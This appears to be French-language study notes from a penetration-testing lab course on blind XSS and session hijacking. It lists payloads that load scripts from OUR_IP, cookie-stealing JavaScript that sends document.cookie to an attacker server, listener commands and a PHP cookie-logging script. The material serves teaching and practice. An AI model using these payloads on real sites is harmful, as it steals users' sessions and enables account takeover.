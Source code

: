 ```yaml
---
title:  "Session Hijacking"
category: "Attaque XSS"
tag: "Cross-Site Scripting (XSS)"
---
```

Les applications modernes utilisent les cookies pour maintenir la session d'un utilisateur à travers différentes sessions de navigation.
Si un attaquant récupère le cookie du navigateur d'une victime, il pourrait se connecter facilement sans avoir ses credentials.

En ayant la possibilité d'exécuter du Javascript sur le navigateur, on peut récupérer ces cookies et les envoyer à un serveur pour détourner la session connectée en effectuant un **"Session Hijacking"** ou **"Cookie Stealing"**.

# Détection de Blind XSS

Une **Blind XSS** se produit lorsque la vulnérabilité XSS est déclenchée sur une page dont on n'a pas accès.

Les vulnérabilités **Blind XSS** se produisent souvent sur des réceptions de formulaires accessibles seulement par certains utilisateurs (Admin par exemple). On peut citer d'autres exemples de situations :
- Formulaires de contact
- Avis
- Détails de l'utilisateur
- Tickets d'assistance
- En-tête HTTP User-Agent

Puisque nous n'avons pas accès à la page qui va déclencher l'XSS, nous ne pouvons pas détecter sur le site directement si la vulnérabilité XSS est effective.

Pour cela, nous pouvons utiliser une technique qui consiste à envoyer une requête HTTP  à un serveur en écoute dans le script JS exécuté sur la page distante.
Si on reçoit la requête, alors on pourra en déduire que le code Javascript a bien été interprété, et donc qu'une XSS existe sur une page dont nous n'avons pas accès.

Cela pose deux problèmes :
- **Comment savoir quel champ est vulnérable ?**
- **Quel payload d'XSS utiliser?**

# Chargement d'un script distant
En HTML, on peut injecter du code Javascript avec les balises \<script\> ou inclure un script distant à l'aide d'une url, qui sera stocké dans notre serveur de la manière suivante :
```html
<script src="http://SERVERIP/script.js"></script>
```

Afin d'identifier le champ qui est vulnérable, on peut personnaliser la requête HTTP :
```html
<script src="http://OUR_IP/specificField"></script>
```

On peut retrouver pleins d'exemples de payload à injecter sur [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss) 
tels que les suivants :
```html
<script src="http://OUR_IP"></script>
"><script src="http://OUR_IP"></script>
'><script src="http://OUR_IP"></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Avant d'envoyer les payloads, il faut donc mettre un serveur en écoute avec nc ou php par exemple :
```console
Misoko@htb[/htb]$ mkdir /tmp/tmpserver
Misoko@htb[/htb]$ cd /tmp/tmpserver
Misoko@htb[/htb]$ sudo php -S 0.0.0.0:80
```

Et donc dans le formulaire, on insère le même paylaod, que l'on personnalise selon le champ. On attend quelques secondes pour voir si on a un retour de la part de la page qui est censé exécuter le payload.
Si ce n'est pas le cas, on continue avec un autre payload et ainsi de suite jusqu'à trouver le bon.

Bien entendu, cette étape peut être automatisée en écrivant un script.

```html
<script src="http://OUR_IP/fullname"></script> # insérer dans le champ "full-name"
<script src="http://OUR_IP/username"></script> # insérer dans le champ "username"
...ETC...
```

# Session Hijacking

Une fois que l'on a trouvé un payload fonctionnel de XSS avec le champ vulnérable sur l'application web, on peut procéder à l'exploitation et effectuer 
une attaque dites de **Session Hijacking**.

Cette attaque consiste à récupérer un cookie de session à l'aide d'un script Javascript, et d'effectuer une requête HTTP qui contiendra le cookie de session 
à notre serveur en écoute.

On retrouve plein de payloads sur [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc) pour récupérer 
les cookies de session et les envoyer à notre serveur :

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Utiliser le deuxième serait moins suspicieux puisqu'il ajoute simplement une image sur la page, contrairement au premier qui navigue sur notre page php de saisie de cookie.

On va mettre notre payload javascript dans un fichier **script.js** que l'on place à l'endroit où le serveur est en écoute.
On place dans le champ de sasie vulnérable la requête http suivante :

```html
<script src=http://OUR_IP/script.js></script>
```
<center><img src="/assets/images/htbAcademy/XSSModule/sessionhijacking1.png" alt="Alt text"></center>

On recevra la requête GET contenant le cookie en paramètre :

<center><img src="/assets/images/htbAcademy/XSSModule/sessionhijacking2.png" alt="Alt text"></center>

Cependant, s'il y avait de nombreux cookies reçus en raison d'un déclenchement multiple de la vulnérabilité, il serait bien de pouvoir stocker ces derniers dans un fichier.
On peut utiliser le code php suivant et relancer notre serveur avec :

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

On obtient un log propre contenant le cookie :
```console
Misoko@htb[/htb]$ cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=c00k1355h0u1d8353cu23d
```

Pour finir, il faut enregistrer le cookie de session dans l'onglet **Stockage** de l'outil développeur dans la page de connection, puis de rafraîchir la page

<center><img src="/assets/images/htbAcademy/XSSModule/sessionhijacking3.png" alt="Alt text"></center>

